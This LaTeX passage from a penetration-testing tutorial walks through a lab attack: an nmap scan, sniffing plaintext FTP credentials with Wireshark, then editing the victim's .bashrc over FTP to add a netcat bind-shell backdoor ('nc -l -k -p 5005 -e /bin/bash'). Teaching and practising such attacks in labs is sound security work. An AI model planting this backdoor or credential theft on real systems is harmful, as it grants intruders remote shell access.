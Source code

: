 			To do this, the first step is to determine what the computer you are targeting is running.
			This is done using the tool ``nmap'' as below:
			\begin{verbatim}
				$ nmap -Sv <Target> -p-
			\end{verbatim}
			This will give us a list of the services which are running on the server, as well as their names and ports.
			We will be looking at the FTP server, as it is currently allowing plain text authentication:
			\begin{quote}
				21/tcp    open  ftp         vsftpd 2.3.4
			\end{quote}
			Unlike SFTP, the modern protocol, FTP often allows for plain text authentication, meaning that a person intercepting traffic would be able to read the user name and password.
			This is how we will begin to gain access to the system.

			Open the program Wireshark and start a listener on eth1.
			This is the NIC that is connected to the remote server and that someone may be interacting with it on.
			Usually this would be done through means such as a \href{https://lanturtle.com/}{LAN Turtle},
			However, for the purposes of this demonstration, we will simply be using a local network interface.

			When the listener is setup, look for a set of TCP and FTP packets to the target from your machine.
			These will likely be the FTP authentication, so right click and select ``Follow TCP Stream'' to view the messages that were sent.
			At this point you should have the user name and password.
			If you do not, find another set of TCP and FTP messages and try again.
			For more information on using Wireshark, see it's section in Chapter \ref{ch:Forensics}.

			Now that we can alter files on their system, add the following line to their .bashrc.
			This will open a listener on port 5005 which can be interacted with from any computer on the network.
			\begin{verbatim}
				$ nc -l -k -p 5005 -e /bin/bash
			\end{verbatim}

			Using FTP with the user name and password that you found, run the following commands:
			\begin{verse}
				get .bashrc
			\end{verse}
			Exit FTP at this point and edit the required line into the .bashrc then run the following FTP command:
			\begin{quote}
				put .bashrc
			\end{quote}
			This will mean that as soon as the msfadmin user logs into their account, a shell will be opened on port 5005.

